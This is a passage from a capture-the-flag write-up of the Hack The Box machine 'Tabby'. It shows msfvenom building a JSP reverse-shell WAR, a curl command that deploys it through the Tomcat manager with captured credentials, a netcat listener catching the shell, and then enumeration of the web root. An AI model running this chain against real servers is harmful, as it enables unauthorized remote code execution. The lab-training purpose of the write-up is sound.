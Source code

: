 ### 3. Get a shell
Generate a WAR reverse shell:
```bash
kali@kali:~/temp$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.207 LPORT=4444 -f war > webshell.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
```

Use curl to send the file after many failed attempts (gotta get this command just right for it to work and it seems to change a bit with every tomcat version)
The reference that did it for me was: https://www.thetopsites.net/article/52386613.shtml
```bash
kali@kali:~/Desktop/htb/tabby$ curl -v -u tomcat:'$3cureP4s5w0rd123!' -T webshell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/webshell&update=true'
*   Trying 10.10.10.194:8080...
* TCP_NODELAY set
* Connected to 10.10.10.194 (10.10.10.194) port 8080 (#0)
* Server auth using Basic with user 'tomcat'
> PUT /manager/text/deploy?path=/webshell&update=true HTTP/1.1
> Host: 10.10.10.194:8080
> Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Length: 1092
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Wed, 24 Jun 2020 07:41:00 GMT
< 
OK - Deployed application at context path [/webshell]
* Connection #0 to host 10.10.10.194 left intact
```

Check Netcat:
```bash
kali@kali:~/Desktop/htb/tabby$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10-10-10-194.tpgi.com.au 33966
whoami
tomcat
```

### 4. Enumerate some more
After popping this shell comes more enumeration. Looking through the Apache server html files, I find a files folder with some stuff.
```bash
cd /var/www/html 
ls

assets
favicon.ico
files
index.php
logo.png
news.php
```